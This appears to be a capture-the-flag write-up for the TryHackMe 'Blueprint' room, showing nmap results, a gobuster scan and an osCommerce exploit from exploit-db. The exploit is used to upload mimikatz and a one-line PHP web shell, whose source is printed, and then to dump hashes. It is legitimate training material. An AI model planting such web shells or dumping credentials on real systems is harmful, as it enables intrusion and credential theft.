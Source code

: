 # 8 - Blueprint

Room Link --> [https://tryhackme.com/room/blueprint](https://tryhackme.com/room/blueprint)

Nmap Results:

{% code overflow="wrap" lineNumbers="true" %}
```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```
{% endcode %}

All are dead-ends, except the port 8080.

`gobuster dir -u http://10.10.138.195:8080/ -x php,html,txt,aspx,asp -t 15 -q -w /usr/share/wordlists/dirb/common.txt` - dir search.

Search exploit-db.com for known exploits for "oscommerce", i used this one --> [https://www.exploit-db.com/exploits/44374](https://www.exploit-db.com/exploits/44374)

Edit the content of the script:

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>1</p></figcaption></figure>

used it to upload mimikatz, and a php web cmd shell:&#x20;

{% code title="shell.php" %}
```php
# to execute cmds from the webpage directly
<?php echo shell_exec($_GET["cmd"]); ?>
```
{% endcode %}

Use Mimikatz to dump the hashes and read the root flag.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>2</p></figcaption></figure>

